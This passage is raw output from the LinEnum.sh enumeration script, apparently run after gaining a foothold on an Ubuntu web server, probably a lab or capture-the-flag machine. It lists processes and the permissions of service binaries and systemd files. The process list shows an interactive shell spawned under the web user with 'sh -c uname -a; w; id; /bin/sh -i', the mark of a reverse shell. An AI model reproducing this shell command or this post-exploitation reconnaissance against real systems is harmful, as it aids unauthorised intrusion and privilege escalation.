root       137  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       138  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       139  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       140  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       141  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kpsmoused]
root       143  0.0  0.0      0     0 ?        S<   Aug24   0:00 [ttm_swap]
root       165  0.0  0.0      0     0 ?        S    Aug24   0:00 [jbd2/xvda1-8]
root       166  0.0  0.0      0     0 ?        S<   Aug24   0:00 [ext4-rsv-conver]
root       194  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kworker/0:1H]
root       206  0.0  0.5  27704  2736 ?        Ss   Aug24   0:00 /lib/systemd/systemd-journald
root       207  0.0  0.0      0     0 ?        S    Aug24   0:00 [kworker/0:3]
root       212  0.0  0.0      0     0 ?        S    Aug24   0:00 [kauditd]
root       275  0.0  0.8  44968  4376 ?        Ss   Aug24   0:01 /lib/systemd/systemd-udevd
systemd+   315  0.0  0.5 100324  2524 ?        Ssl  Aug24   0:00 /lib/systemd/systemd-timesyncd
root       513  0.0  0.5  16124  2636 ?        Ss   Aug24   0:00 /sbin/dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
root       572  0.0  0.6  29008  3064 ?        Ss   Aug24   0:00 /usr/sbin/cron -f
root       573  0.0  0.2  20096  1268 ?        Ss   Aug24   0:00 /lib/systemd/systemd-logind
message+   575  0.0  0.7  42896  3836 ?        Ss   Aug24   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       582  0.0  1.2 275860  6256 ?        Ssl  Aug24   0:00 /usr/lib/accountsservice/accounts-daemon
syslog     583  0.0  0.6 256392  3180 ?        Ssl  Aug24   0:00 /usr/sbin/rsyslogd -n
root       673  0.0  0.4  15752  2252 ttyS0    Ss+  Aug24   0:00 /sbin/agetty --keep-baud 115200 38400 9600 ttyS0 vt220
root       674  0.0  0.3  15936  1788 tty1     Ss+  Aug24   0:00 /sbin/agetty --noclear tty1 linux
mysql      689  0.9 37.3 1118844 186300 ?      Ssl  Aug24   0:30 /usr/sbin/mysqld
root       702  0.0  1.2  65512  6180 ?        Ss   Aug24   0:00 /usr/sbin/sshd -D
root       725  0.0  5.1 303048 25628 ?        Ss   Aug24   0:00 /usr/sbin/apache2 -k start
root       739  0.0  5.1 266376 25688 ?        Ss   Aug24   0:00 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
www-data   746  0.0  0.9 266376  4936 ?        S    Aug24   0:00 php-fpm: pool www
www-data   747  0.0  0.9 266376  4936 ?        S    Aug24   0:00 php-fpm: pool www
www-data   870  0.0  2.8 303684 14368 ?        S    Aug24   0:01 /usr/sbin/apache2 -k start
www-data   887  0.0  2.8 303712 14148 ?        S    Aug24   0:01 /usr/sbin/apache2 -k start
www-data   938  0.0  2.8 303724 14144 ?        S    00:08   0:01 /usr/sbin/apache2 -k start
www-data   983  0.0  2.8 303704 14032 ?        S    00:08   0:01 /usr/sbin/apache2 -k start
www-data  1028  0.0  2.8 303728 14420 ?        S    00:08   0:01 /usr/sbin/apache2 -k start
www-data  1031  0.0  2.6 303704 13412 ?        S    00:08   0:01 /usr/sbin/apache2 -k start
root      2072  0.0  0.0      0     0 ?        S    00:10   0:00 [kworker/0:0]
www-data  2194  0.0  2.8 303708 14052 ?        S    00:19   0:00 /usr/sbin/apache2 -k start
www-data  2235  0.0  2.8 303700 13968 ?        S    00:19   0:00 /usr/sbin/apache2 -k start
www-data  2236  0.0  2.8 303704 14024 ?        S    00:19   0:00 /usr/sbin/apache2 -k start
www-data  3326  0.0  2.6 303704 13324 ?        S    00:33   0:00 /usr/sbin/apache2 -k start
www-data  3331  0.0  0.1   4504   744 ?        S    00:35   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  3335  0.0  0.2   4504  1476 ?        S    00:35   0:00 /bin/sh -i
www-data  3422  0.0  0.7  19024  3876 ?        S    00:47   0:00 /bin/bash ./LinEnum.sh
www-data  3423  0.0  0.6  19052  3388 ?        S    00:47   0:00 /bin/bash ./LinEnum.sh
www-data  3424  0.0  0.1   4380   668 ?        S    00:47   0:00 tee -a
www-data  3610  0.0  0.2  19052  1296 ?        S    00:47   0:00 /bin/bash ./LinEnum.sh
www-data  3611  0.0  0.5  34424  2872 ?        R    00:47   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root  1037528 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Feb  6  2020 /bin/sh -> dash
-rwxr-xr-x 1 root root   326232 Feb 13  2019 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Feb 13  2019 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Feb 13  2019 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Feb 13  2019 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 May 16  2018 /sbin/agetty
-rwxr-xr-x 1 root root   487248 Mar  5  2018 /sbin/dhclient
lrwxrwxrwx 1 root root       20 Feb  6  2020 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root   164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root   662560 Oct  8  2019 /usr/sbin/apache2
-rwxr-xr-x 1 root root    44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root 24557160 Jan 21  2020 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   791024 Mar  4  2019 /usr/sbin/sshd


[-] /etc/init.d/ binary permissions:
total 272
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root 1376 Feb  6  2020 .depend.boot
-rw-r--r--  1 root root  583 Feb  6  2020 .depend.start
-rw-r--r--  1 root root  764 Feb  6  2020 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2210 Jun 11  2018 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Jun 11  2018 apache2
-rwxr-xr-x  1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root 2813 Dec  1  2015 dbus
-rwxr-xr-x  1 root root 1105 Apr 26  2019 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 20  2015 kmod
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 5607 Feb  3  2017 mysql
-rwxr-xr-x  1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 15  2015 ondemand
-rwxr-xr-x  1 root root 1846 Mar 22  2018 open-vm-tools
-rwxr-xr-x  1 root root 4987 Jan 14  2020 php7.0-fpm
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  5  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Aug 21  2018 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 May 16  2018 uuidd
-rwxr-xr-x  1 root root 2757 Jan 19  2017 x11-common


[-] /etc/init/ config file permissions:
total 136
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root 3709 Mar  3  2017 apparmor.conf
-rw-r--r--  1 root root  250 Apr  4  2016 console-font.conf
-rw-r--r--  1 root root  509 Apr  4  2016 console-setup.conf
-rw-r--r--  1 root root  297 Apr  5  2016 cron.conf
-rw-r--r--  1 root root  482 Sep  1  2015 dbus.conf
-rw-r--r--  1 root root 1247 Jun  1  2015 friendly-recovery.conf
-rw-r--r--  1 root root  284 Jul 23  2013 hostname.conf
-rw-r--r--  1 root root  300 May 21  2014 hostname.sh.conf
-rw-r--r--  1 root root  561 Mar 14  2016 hwclock-save.conf
-rw-r--r--  1 root root  674 Mar 14  2016 hwclock.conf
-rw-r--r--  1 root root  109 Mar 14  2016 hwclock.sh.conf
-rw-r--r--  1 root root  597 Apr 11  2016 irqbalance.conf
-rw-r--r--  1 root root  689 Aug 20  2015 kmod.conf
-rw-r--r--  1 root root 1757 Feb  3  2017 mysql.conf
-rw-r--r--  1 root root  530 Jun  2  2015 network-interface-container.conf
-rw-r--r--  1 root root 1756 Jun  2  2015 network-interface-security.conf
-rw-r--r--  1 root root  933 Jun  2  2015 network-interface.conf
-rw-r--r--  1 root root 2493 Jun  2  2015 networking.conf
-rw-r--r--  1 root root  568 Feb  1  2016 passwd.conf
-rw-r--r--  1 root root  398 Jan 14  2020 php7.0-fpm.conf
-rw-r--r--  1 root root  363 Jun  5  2014 procps-instance.conf
-rw-r--r--  1 root root  119 Jun  5  2014 procps.conf
-rw-r--r--  1 root root  457 Jun  3  2015 resolvconf.conf
-rw-r--r--  1 root root  426 Dec  2  2015 rsyslog.conf
-rw-r--r--  1 root root  230 Apr  4  2016 setvtrgb.conf
-rw-r--r--  1 root root  641 Aug 21  2018 ssh.conf
-rw-r--r--  1 root root  337 Apr 12  2016 udev.conf
-rw-r--r--  1 root root  360 Apr 12  2016 udevmonitor.conf
-rw-r--r--  1 root root  352 Apr 12  2016 udevtrigger.conf
-rw-r--r--  1 root root  473 Aug  7  2014 ufw.conf
-rw-r--r--  1 root root  683 Feb 24  2015 ureadahead-other.conf
-rw-r--r--  1 root root  889 Feb 24  2015 ureadahead.conf


[-] /lib/systemd/* config file permissions:
/lib/systemd/:
total 8.3M
drwxr-xr-x 27 root root  16K Feb  6  2020 system
drwxr-xr-x  2 root root 4.0K Feb  6  2020 system-sleep
drwxr-xr-x  2 root root 4.0K Feb  6  2020 system-generators
drwxr-xr-x  2 root root 4.0K Feb  6  2020 system-preset
drwxr-xr-x  2 root root 4.0K Feb  6  2020 network
-rwxr-xr-x  1 root root 443K Feb 13  2019 systemd-udevd
-rwxr-xr-x  1 root root 268K Feb 13  2019 systemd-cgroups-agent
-rwxr-xr-x  1 root root 301K Feb 13  2019 systemd-fsck
-rwxr-xr-x  1 root root 276K Feb 13  2019 systemd-initctl
-rwxr-xr-x  1 root root 340K Feb 13  2019 systemd-localed
-rwxr-xr-x  1 root root  51K Feb 13  2019 systemd-modules-load
-rwxr-xr-x  1 root root  35K Feb 13  2019 systemd-user-sessions
-rwxr-xr-x  1 root root 1.6M Feb 13  2019 systemd
-rwxr-xr-x  1 root root  15K Feb 13  2019 systemd-ac-power
-rwxr-xr-x  1 root root 103K Feb 13  2019 systemd-bootchart
-rwxr-xr-x  1 root root  91K Feb 13  2019 systemd-cryptsetup
-rwxr-xr-x  1 root root  31K Feb 13  2019 systemd-hibernate-resume
-rwxr-xr-x  1 root root 332K Feb 13  2019 systemd-hostnamed
-rwxr-xr-x  1 root root 319K Feb 13  2019 systemd-journald
-rwxr-xr-x  1 root root 123K Feb 13  2019 systemd-networkd-wait-online
-rwxr-xr-x  1 root root  35K Feb 13  2019 systemd-quotacheck
-rwxr-xr-x  1 root root  51K Feb 13  2019 systemd-remount-fs
-rwxr-xr-x  1 root root  91K Feb 13  2019 systemd-rfkill
-rwxr-xr-x  1 root root 143K Feb 13  2019 systemd-shutdown
-rwxr-xr-x  1 root root  71K Feb 13  2019 systemd-sleep
-rwxr-xr-x  1 root root  91K Feb 13  2019 systemd-socket-proxyd
-rwxr-xr-x  1 root root  55K Feb 13  2019 systemd-sysctl
-rwxr-xr-x  1 root root 333K Feb 13  2019 systemd-timedated
-rwxr-xr-x  1 root root 139K Feb 13  2019 systemd-timesyncd
-rwxr-xr-x  1 root root  55K Feb 13  2019 systemd-activate
-rwxr-xr-x  1 root root  91K Feb 13  2019 systemd-backlight
-rwxr-xr-x  1 root root  47K Feb 13  2019 systemd-binfmt
-rwxr-xr-x  1 root root 352K Feb 13  2019 systemd-bus-proxyd
-rwxr-xr-x  1 root root  75K Feb 13  2019 systemd-fsckd
-rwxr-xr-x  1 root root 605K Feb 13  2019 systemd-logind
-rwxr-xr-x  1 root root 836K Feb 13  2019 systemd-networkd
-rwxr-xr-x  1 root root  39K Feb 13  2019 systemd-random-seed
-rwxr-xr-x  1 root root  31K Feb 13  2019 systemd-reply-password
-rwxr-xr-x  1 root root 657K Feb 13  2019 systemd-resolved
-rwxr-xr-x  1 root root 276K Feb 13  2019 systemd-update-utmp
-rwxr-xr-x  1 root root 1.3K Nov 15  2018 systemd-sysv-install
drwxr-xr-x  2 root root 4.0K Apr 12  2016 system-shutdown

/lib/systemd/system:
total 832K
drwxr-xr-x 2 root root 4.0K Feb  6  2020 apache2.service.d
drwxr-xr-x 2 root root 4.0K Feb  6  2020 halt.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 initrd-switch-root.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 kexec.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 multi-user.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 poweroff.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 reboot.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 sysinit.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 sockets.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 systemd-resolved.service.d
drwxr-xr-x 2 root root 4.0K Feb  6  2020 systemd-timesyncd.service.d
drwxr-xr-x 2 root root 4.0K Feb  6  2020 timers.target.wants
lrwxrwxrwx 1 root root   21 Feb  6  2020 udev.service -> systemd-udevd.service
lrwxrwxrwx 1 root root    9 Feb  6  2020 umountfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 umountnfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 umountroot.service -> /dev/null
lrwxrwxrwx 1 root root   27 Feb  6  2020 urandom.service -> systemd-random-seed.service
lrwxrwxrwx 1 root root    9 Feb  6  2020 x11-common.service -> /dev/null
lrwxrwxrwx 1 root root   14 Feb  6  2020 autovt@.service -> getty@.service
lrwxrwxrwx 1 root root    9 Feb  6  2020 bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 bootlogs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 bootmisc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 checkfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 checkroot-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 checkroot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 cryptdisks-early.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 cryptdisks.service -> /dev/null
lrwxrwxrwx 1 root root   13 Feb  6  2020 ctrl-alt-del.target -> reboot.target
lrwxrwxrwx 1 root root   25 Feb  6  2020 dbus-org.freedesktop.hostname1.service -> systemd-hostnamed.service
lrwxrwxrwx 1 root root   23 Feb  6  2020 dbus-org.freedesktop.locale1.service -> systemd-localed.service
lrwxrwxrwx 1 root root   22 Feb  6  2020 dbus-org.freedesktop.login1.service -> systemd-logind.service
lrwxrwxrwx 1 root root   24 Feb  6  2020 dbus-org.freedesktop.network1.service -> systemd-networkd.service
lrwxrwxrwx 1 root root   24 Feb  6  2020 dbus-org.freedesktop.resolve1.service -> systemd-resolved.service
lrwxrwxrwx 1 root root   25 Feb  6  2020 dbus-org.freedesktop.timedate1.service -> systemd-timedated.service
lrwxrwxrwx 1 root root   16 Feb  6  2020 default.target -> graphical.target
lrwxrwxrwx 1 root root    9 Feb  6  2020 fuse.service -> /dev/null
drwxr-xr-x 2 root root 4.0K Feb  6  2020 getty.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 graphical.target.wants
lrwxrwxrwx 1 root root    9 Feb  6  2020 halt.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 hostname.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 hwclock.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 killprocs.service -> /dev/null
lrwxrwxrwx 1 root root   28 Feb  6  2020 kmod.service -> systemd-modules-load.service
drwxr-xr-x 2 root root 4.0K Feb  6  2020 local-fs.target.wants
lrwxrwxrwx 1 root root   28 Feb  6  2020 module-init-tools.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root    9 Feb  6  2020 motd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountall-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountall.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountdevsubfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountkernfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountnfs-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 mountnfs.service -> /dev/null
lrwxrwxrwx 1 root root   22 Feb  6  2020 procps.service -> systemd-sysctl.service
drwxr-xr-x 2 root root 4.0K Feb  6  2020 rc-local.service.d
lrwxrwxrwx 1 root root   16 Feb  6  2020 rc.local.service -> rc-local.service
lrwxrwxrwx 1 root root    9 Feb  6  2020 rc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 rcS.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 reboot.service -> /dev/null
drwxr-xr-x 2 root root 4.0K Feb  6  2020 rescue.target.wants
drwxr-xr-x 2 root root 4.0K Feb  6  2020 resolvconf.service.wants
lrwxrwxrwx 1 root root    9 Feb  6  2020 rmnologin.service -> /dev/null
lrwxrwxrwx 1 root root   15 Feb  6  2020 runlevel0.target -> poweroff.target
lrwxrwxrwx 1 root root   13 Feb  6  2020 runlevel1.target -> rescue.target
lrwxrwxrwx 1 root root   17 Feb  6  2020 runlevel2.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Feb  6  2020 runlevel3.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Feb  6  2020 runlevel4.target -> multi-user.target
lrwxrwxrwx 1 root root   16 Feb  6  2020 runlevel5.target -> graphical.target
lrwxrwxrwx 1 root root   13 Feb  6  2020 runlevel6.target -> reboot.target
lrwxrwxrwx 1 root root    9 Feb  6  2020 sendsigs.service -> /dev/null
drwxr-xr-x 2 root root 4.0K Feb  6  2020 sigpwr.target.wants
lrwxrwxrwx 1 root root    9 Feb  6  2020 single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 stop-bootlogd-single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Feb  6  2020 stop-bootlogd.service -> /dev/null
-rw-r--r-- 1 root root  386 Jan 14  2020 php7.0-fpm.service
drwxr-xr-x 2 root root 4.0K Feb 26  2019 busnames.target.wants
-rw-r--r-- 1 root root  403 Feb 13  2019 -.slice
-rw-r--r-- 1 root root  879 Feb 13  2019 basic.target
-rw-r--r-- 1 root root  379 Feb 13  2019 bluetooth.target
-rw-r--r-- 1 root root  358 Feb 13  2019 busnames.target
-rw-r--r-- 1 root root  770 Feb 13  2019 console-getty.service
-rw-r--r-- 1 root root  742 Feb 13  2019 console-shell.service
-rw-r--r-- 1 root root  791 Feb 13  2019 container-getty@.service
-rw-r--r-- 1 root root  394 Feb 13  2019 cryptsetup-pre.target
-rw-r--r-- 1 root root  366 Feb 13  2019 cryptsetup.target
-rw-r--r-- 1 root root 1010 Feb 13  2019 debug-shell.service
-rw-r--r-- 1 root root  670 Feb 13  2019 dev-hugepages.mount
-rw-r--r-- 1 root root  624 Feb 13  2019 dev-mqueue.mount
-rw-r--r-- 1 root root 1009 Feb 13  2019 emergency.service
-rw-r--r-- 1 root root  431 Feb 13  2019 emergency.target
-rw-r--r-- 1 root root  501 Feb 13  2019 exit.target
-rw-r--r-- 1 root root  440 Feb 13  2019 final.target
-rw-r--r-- 1 root root  460 Feb 13  2019 getty.target
-rw-r--r-- 1 root root 1.5K Feb 13  2019 getty@.service
-rw-r--r-- 1 root root  558 Feb 13  2019 graphical.target
-rw-r--r-- 1 root root  487 Feb 13  2019 halt.target
-rw-r--r-- 1 root root  447 Feb 13  2019 hibernate.target
-rw-r--r-- 1 root root  468 Feb 13  2019 hybrid-sleep.target
-rw-r--r-- 1 root root  630 Feb 13  2019 initrd-cleanup.service
-rw-r--r-- 1 root root  553 Feb 13  2019 initrd-fs.target
-rw-r--r-- 1 root root  790 Feb 13  2019 initrd-parse-etc.service
-rw-r--r-- 1 root root  526 Feb 13  2019 initrd-root-fs.target
-rw-r--r-- 1 root root  640 Feb 13  2019 initrd-switch-root.service
-rw-r--r-- 1 root root  691 Feb 13  2019 initrd-switch-root.target
-rw-r--r-- 1 root root  664 Feb 13  2019 initrd-udevadm-cleanup-db.service
-rw-r--r-- 1 root root  671 Feb 13  2019 initrd.target
-rw-r--r-- 1 root root  501 Feb 13  2019 kexec.target
-rw-r--r-- 1 root root  677 Feb 13  2019 kmod-static-nodes.service
-rw-r--r-- 1 root root  395 Feb 13  2019 local-fs-pre.target
-rw-r--r-- 1 root root  507 Feb 13  2019 local-fs.target
-rw-r--r-- 1 root root  405 Feb 13  2019 machine.slice
-rw-r--r-- 1 root root  473 Feb 13  2019 mail-transport-agent.target
-rw-r--r-- 1 root root  492 Feb 13  2019 multi-user.target
-rw-r--r-- 1 root root  464 Feb 13  2019 network-online.target
-rw-r--r-- 1 root root  461 Feb 13  2019 network-pre.target
-rw-r--r-- 1 root root  480 Feb 13  2019 network.target
-rw-r--r-- 1 root root  514 Feb 13  2019 nss-lookup.target
-rw-r--r-- 1 root root  473 Feb 13  2019 nss-user-lookup.target
-rw-r--r-- 1 root root  354 Feb 13  2019 paths.target
-rw-r--r-- 1 root root  552 Feb 13  2019 poweroff.target
-rw-r--r-- 1 root root  377 Feb 13  2019 printer.target
-rw-r--r-- 1 root root  693 Feb 13  2019 proc-sys-fs-binfmt_misc.automount
-rw-r--r-- 1 root root  603 Feb 13  2019 proc-sys-fs-binfmt_misc.mount
-rw-r--r-- 1 root root  568 Feb 13  2019 quotaon.service
-rw-r--r-- 1 root root  612 Feb 13  2019 rc-local.service
-rw-r--r-- 1 root root  543 Feb 13  2019 reboot.target
-rw-r--r-- 1 root root  396 Feb 13  2019 remote-fs-pre.target
-rw-r--r-- 1 root root  482 Feb 13  2019 remote-fs.target
-rw-r--r-- 1 root root  978 Feb 13  2019 rescue.service
-rw-r--r-- 1 root root  486 Feb 13  2019 rescue.target
-rw-r--r-- 1 root root  500 Feb 13  2019 rpcbind.target
-rw-r--r-- 1 root root 1.1K Feb 13  2019 serial-getty@.service
-rw-r--r-- 1 root root  402 Feb 13  2019 shutdown.target
-rw-r--r-- 1 root root  362 Feb 13  2019 sigpwr.target
-rw-r--r-- 1 root root  420 Feb 13  2019 sleep.target
-rw-r--r-- 1 root root  409 Feb 13  2019 slices.target
-rw-r--r-- 1 root root  380 Feb 13  2019 smartcard.target
-rw-r--r-- 1 root root  356 Feb 13  2019 sockets.target
-rw-r--r-- 1 root root  380 Feb 13  2019 sound.target
-rw-r--r-- 1 root root  441 Feb 13  2019 suspend.target
-rw-r--r-- 1 root root  353 Feb 13  2019 swap.target
-rw-r--r-- 1 root root  715 Feb 13  2019 sys-fs-fuse-connections.mount
-rw-r--r-- 1 root root  719 Feb 13  2019 sys-kernel-config.mount
-rw-r--r-- 1 root root  662 Feb 13  2019 sys-kernel-debug.mount
-rw-r--r-- 1 root root  518 Feb 13  2019 sysinit.target
-rw-r--r-- 1 root root 1.3K Feb 13  2019 syslog.socket
-rw-r--r-- 1 root root  585 Feb 13  2019 system-update.target
-rw-r--r-- 1 root root  436 Feb 13  2019 system.slice
-rw-r--r-- 1 root root  646 Feb 13  2019 systemd-ask-password-console.path
-rw-r--r-- 1 root root  653 Feb 13  2019 systemd-ask-password-console.service
-rw-r--r-- 1 root root  574 Feb 13  2019 systemd-ask-password-wall.path
-rw-r--r-- 1 root root  681 Feb 13  2019 systemd-ask-password-wall.service
-rw-r--r-- 1 root root  724 Feb 13  2019 systemd-backlight@.service
-rw-r--r-- 1 root root  959 Feb 13  2019 systemd-binfmt.service
-rw-r--r-- 1 root root  650 Feb 13  2019 systemd-bootchart.service
-rw-r--r-- 1 root root 1.0K Feb 13  2019 systemd-bus-proxyd.service
-rw-r--r-- 1 root root  409 Feb 13  2019 systemd-bus-proxyd.socket
-rw-r--r-- 1 root root  497 Feb 13  2019 systemd-exit.service
-rw-r--r-- 1 root root  674 Feb 13  2019 systemd-fsck-root.service
-rw-r--r-- 1 root root  648 Feb 13  2019 systemd-fsck@.service
-rw-r--r-- 1 root root  551 Feb 13  2019 systemd-fsckd.service
-rw-r--r-- 1 root root  540 Feb 13  2019 systemd-fsckd.socket
-rw-r--r-- 1 root root  544 Feb 13  2019 systemd-halt.service
-rw-r--r-- 1 root root  631 Feb 13  2019 systemd-hibernate-resume@.service
-rw-r--r-- 1 root root  501 Feb 13  2019 systemd-hibernate.service
-rw-r--r-- 1 root root  710 Feb 13  2019 systemd-hostnamed.service
-rw-r--r-- 1 root root  778 Feb 13  2019 systemd-hwdb-update.service
-rw-r--r-- 1 root root  519 Feb 13  2019 systemd-hybrid-sleep.service
-rw-r--r-- 1 root root  480 Feb 13  2019 systemd-initctl.service
-rw-r--r-- 1 root root  524 Feb 13  2019 systemd-initctl.socket
-rw-r--r-- 1 root root  731 Feb 13  2019 systemd-journal-flush.service
-rw-r--r-- 1 root root  607 Feb 13  2019 systemd-journald-audit.socket
-rw-r--r-- 1 root root 1.1K Feb 13  2019 systemd-journald-dev-log.socket
-rw-r--r-- 1 root root 1.3K Feb 13  2019 systemd-journald.service
-rw-r--r-- 1 root root  842 Feb 13  2019 systemd-journald.socket
-rw-r--r-- 1 root root  557 Feb 13  2019 systemd-kexec.service
-rw-r--r-- 1 root root  691 Feb 13  2019 systemd-localed.service
-rw-r--r-- 1 root root 1.2K Feb 13  2019 systemd-logind.service
-rw-r--r-- 1 root root  693 Feb 13  2019 systemd-machine-id-commit.service
-rw-r--r-- 1 root root  967 Feb 13  2019 systemd-modules-load.service
-rw-r--r-- 1 root root  685 Feb 13  2019 systemd-networkd-wait-online.service
-rw-r--r-- 1 root root 1.3K Feb 13  2019 systemd-networkd.service
-rw-r--r-- 1 root root  591 Feb 13  2019 systemd-networkd.socket
-rw-r--r-- 1 root root  553 Feb 13  2019 systemd-poweroff.service
-rw-r--r-- 1 root root  614 Feb 13  2019 systemd-quotacheck.service
-rw-r--r-- 1 root root  717 Feb 13  2019 systemd-random-seed.service
-rw-r--r-- 1 root root  548 Feb 13  2019 systemd-reboot.service
-rw-r--r-- 1 root root  757 Feb 13  2019 systemd-remount-fs.service
-rw-r--r-- 1 root root  907 Feb 13  2019 systemd-resolved.service
-rw-r--r-- 1 root root  696 Feb 13  2019 systemd-rfkill.service
-rw-r--r-- 1 root root  617 Feb 13  2019 systemd-rfkill.socket
-rw-r--r-- 1 root root  497 Feb 13  2019 systemd-suspend.service
-rw-r--r-- 1 root root  653 Feb 13  2019 systemd-sysctl.service
-rw-r--r-- 1 root root  655 Feb 13  2019 systemd-timedated.service
